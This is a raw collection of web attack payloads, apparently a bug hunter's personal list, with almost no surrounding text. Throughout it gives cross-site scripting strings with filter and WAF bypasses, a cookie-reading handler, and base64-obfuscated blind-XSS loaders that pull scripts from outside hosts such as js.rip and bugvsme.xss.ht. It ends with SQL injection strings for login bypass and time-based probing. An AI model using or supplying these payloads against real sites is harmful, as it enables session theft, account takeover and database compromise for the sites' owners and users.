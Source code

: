 %26gt;%26quot;%26lt;"';}}“></SCRIPT><img src=x onerror=alert(69)>${{7*7}}

"><svg/onload=alert()>

<A%20HRef="%20AutoFocus%20Onfocus=top[%60ale$%7B%27rt%27%7D%60](1)>&x=x


</script>"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>


<svg><use><set attributeName="href"
to="data:image/svg+xml,&lt;svg id='x'
xmlns='http://www.w3.org/2000/svg'&gt;&lt;image
href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />

jafewi2915@apxby.com
<img%00x src='x' onscrollend='alert(1)'  'style="display:block;overflow:auto;border:1px dashed;width:700px;height:500px;"><span id=x>XSS</span></xss>

0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z


"><script src=https://js.rip/8rbc6u9kxc></script>

j&#97v&#97script


<img src=x onerror=" ℹ️='',ℹ️ℹ️=!ℹ️+ℹ️,ℹ️ℹ️ℹ️=!ℹ️ℹ️+ℹ️,ℹ️ℹ️ℹ️ℹ️=ℹ️+{},ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️[ℹ️++],ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️],ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=++ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️,ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️],ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+=ℹ️ℹ️ℹ️ℹ️[ℹ️]+(ℹ️ℹ️.ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️)[ℹ️]+ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️[ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️][ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️](ℹ️ℹ️ℹ️[ℹ️]+ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️+`(ℹ️)`)()
 ">



"><a nope="%26quot;x%26quot;"onmouseover="Reflect.get(frames,'ale'+'rt')(Reflect.get(document,'coo'+'kie'))">

&quot;&lt;script&gt;alert('bug_vs_me')&lt;/script&gt;

<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://w3.org/2000/svg'&gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />


"onmouseover=javascript:window.onerror=alert;throw[1]


"';}}“></script><img src=x onerror=alert``//>{{'7'*7}}


TRUFFLE 




"><><img src=x onError=prompt(1)>

"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS5ieHNzLmluIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw onerror=eval(atob(this.id))>


javascript:eval(atob(`dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7`))

Above BXSS 


javascript:eval(atob('dmFyIHNjcmlwdFRhZyA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpOwogICAgICBzY3JpcHRUYWcuc3JjID0gImh0dHBzOi8vYnVndnNtZS4wMDB3ZWJob3N0YXBwLmNvbS9hbGVydC5qcyI7CiAgICAgIGRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJteS1zY3JpcHQiKS5hcHBlbmRDaGlsZChzY3JpcHRUYWcpOw=='))



this.innerHTML=String.fromCharCode(60,105,109,103,32,115,114,99,61,39,120,39,32,111,110,101,114,114,111,114,61,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41,59,39,62)

<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x29;">xss</a>

"><a href=&#x6a;avascript:alert(0)//>xss</a>

https://storage.googleapis.com/bypass_csp/xss.js

https://accounts.google.com/o/oauth2/revoke?callback=alert(1)

>҉ðŸ˜‡Ÿ˜<҉💋😇"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>	

cloudflare bypass %26lt;svg%20on%20onload%3D(alert)(document.domain)>

“"><img/src/onerror=alert(0)>


"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>


%26quot;%26gt;%26lt;img%2Fsrc%2Fonerror%3Dalert()>


?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e 



+'alert(0)'+

"hello<form/><!><details/open/ontoggle=alert(1)>"
@gmail
.com


<img src=totallyfake onerror=import(‘//domain.com/‘);//


%2522%253e%253cscript%253ealert(0)%253c/script%253e

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3




<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre>
<base href=https://js.rip/8rbc6u9kxc>
<pre x=&#34;">
<code></code></pre>

<iframe/srcdoc='<script/src=/joaxcar_group/first/-/jobs/1415515489/artifacts/raw/data/alert.js></script>'></iframe>


%253Cscript%253Ealert('XSS')%253C%252Fscript%253E


"><input%20tabindex=%221%22%20on%00mousemove=alert()%20onm%00ouseover=%22eval(atob(this.id))%22%20id=%22dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7%22%20autofocus=%22%22%3E


"><input type=image src=x onerror=alert()>

"tabindex="1" onfocus="alert(1)" autofocus"


"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>

\x3Cscript\x3E alert()\x3C/script\x3E



/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)"


[![<img](https://www.linkpicture.com/q/get-started-button-1.svg)](https://www.linkpicture.com/q/34643474-rubber-stamp-with-text-do-not-open-inside-vector-illustration-1.svg)

![<img](https://www.linkpicture.com/q/get-started-button-1.svg)

"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//






SQLI SQLI SQLI SQLI SQLI 

admin' or '1'='1

'XOR(sleep(5))OR'
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
;%20waitfor%20delay%20'0:0:6'%20--%20

